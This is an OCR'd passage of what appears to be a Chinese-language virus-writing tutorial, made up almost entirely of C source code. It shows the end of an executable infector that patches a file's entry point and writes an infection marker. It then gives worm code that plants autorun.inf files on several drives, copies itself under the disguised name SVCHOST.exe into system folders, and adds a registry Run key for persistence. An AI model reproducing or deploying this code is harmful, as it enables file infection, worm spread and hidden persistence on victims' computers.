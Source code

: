 fwrite(&jmp, sizeof(jmp), 1, pFile);

fwrite(&OldEntryPoint, sizeof(OldEntryPoint), 1, pFile);

WORD InfectSign=0x1122; // 感染标志

fwrite(&InfectSign,sizeof(WORD),1,pFile);

fclose(pFile);

//MessageBoxA(NULL,\"注入成功\",\"INFO\",MB\_OK);

return 0;

}

3.修改注册表

\#define SVCHOST\_NUM 6

\#include\<stdio.h\>

\#include\<string.h\>

char \*autorun={\"\[autorun\]\\nopen=SVCHOST.exe\\n\\nshell\\\\1=open\\nshell\\\\1 \\\\Command=SVCHOST.exe\\nshell\\\\2\\\\=Open\\nshell\\\\2\\\\Command=SVCHOST.exe\\nshellexecute=SVCHOST.exe\"};

char \*files\_autorun\[10\]={\"c:\\\\autorun.inf\",\"d:\\\\autorun.inf\",\"e:\\\\autorun.inf\"};

char \*files\_svchost\[SVCHOST\_NUM+1\]={\"c:\\\\windows\\\\system\\\\MSMOUSE.DLL\",

\"c:\\\\windows\\\\system\\\\SVCHOST.exe\",\"c:\\\\windows\\\\SVCHOST.exe\",

\"c:\\\\SVCHOST.exe\",\"d:\\\\SVCHOST.exe\",\"e:\\\\SVCHOST.exe\",\"SVCHOST.exe\"};

char \*regadd=\"reg add \\\"HKLM\\\\SOFTWARE\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Run\\\" /v SVCHOST /d C:\\\\Windows\\\\system\\\\SVCHOST.exe /f\";

int copy(char \*infile,char \*outfile)

{

FILE \*input,\*output;

char temp;

if(strcmp(infile,outfile)!=0 && ((input=fopen(infile,\"rb\"))!=NULL) && ((output=fopen

(outfile,\"wb\"))!=NULL))

{

while(!feof(input))

{

fread(&temp,1,1,input);

fwrite(&temp,1,1,output);

}

fclose(input);

fclose(output);
